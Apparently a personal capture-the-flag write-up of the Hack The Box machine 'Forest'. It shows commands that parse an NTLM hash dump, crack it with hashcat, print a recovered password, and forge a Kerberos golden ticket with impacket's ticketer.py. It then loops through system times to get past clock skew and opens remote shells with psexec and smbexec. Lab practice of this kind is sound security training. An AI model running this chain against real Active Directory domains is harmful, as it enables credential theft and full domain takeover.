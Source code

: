 
We have hashes.out file
```
cat hashes.out | grep ::: | awk -F: '{print $4}'
```
We simply print the 4th part of the hash
![[Pasted image 20231115135515.png]]

```
cat hashes.out | grep ::: | awk -F: '{print $1":"$4}'
```
![[Pasted image 20231115140805.png]]

Hashcat  NTLM version 1000
Will get a token length exception error so will do a little tweak in command
```
.\hashcat.exe --user -m 1000 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20231115141135.png]]

So we got the password for user santi
```
user:santi
passwd:plokmijnuhb
```

This is what we will be targetting
![[Pasted image 20231115141824.png]]

```
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```

```
python3 ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local  Wedontexist
```

```
To get the domain SID
GET-ADDomain htb.local
```
![[Pasted image 20231115141951.png]]

```
cd /usr/share/doc/python3-impacket/examples
```
![[Pasted image 20231115142500.png]]
You can see we have tickey.py

![[Pasted image 20231115142745.png]]
```
export KRB5CCNAME=Wedontexist.ccache 
```
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

We have an error even though we have added the 
10.10.10.161 htb.local in the host file than also we got the skew error
![[Pasted image 20231115143228.png]]

So we have learnt that time actually MATTERS
if we recall and have a look into our Nmap scan we can say that there's a deviation of time
![[Pasted image 20231115143538.png]]

I tried to do what i have done earlier but had no success in it 
```
timedatectl set-ntp true
timedatectl set-ntp false
ntpdate <domain ip address>
```

Will do Brute Force 
```
for i in $(seq 00 24); do date -s $i:36:00; psexec.py htb.local/Wedontexist@10.10.10.161 -k -no-pass; done
```
 
Finally Finally it connected today 
```
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

```
psexec.py -debug -k -no-pass htb.local/Wedontexist@forest
```

Have to done changes to the host file
added - htb.local & forest
![[Pasted image 20231116175043.png]]

Host File
![[Pasted image 20231116175104.png]]


Let's Try wmiexec.py and it didn't worked
```
wmiexec.py -debug -k -no-pass htb.local/Wedontexist@forest
```


But smbexec worked
```
smbexec.py -debug -k -no-pass htb.local/Wedontexist@forest
```


So now the box is pwned completly 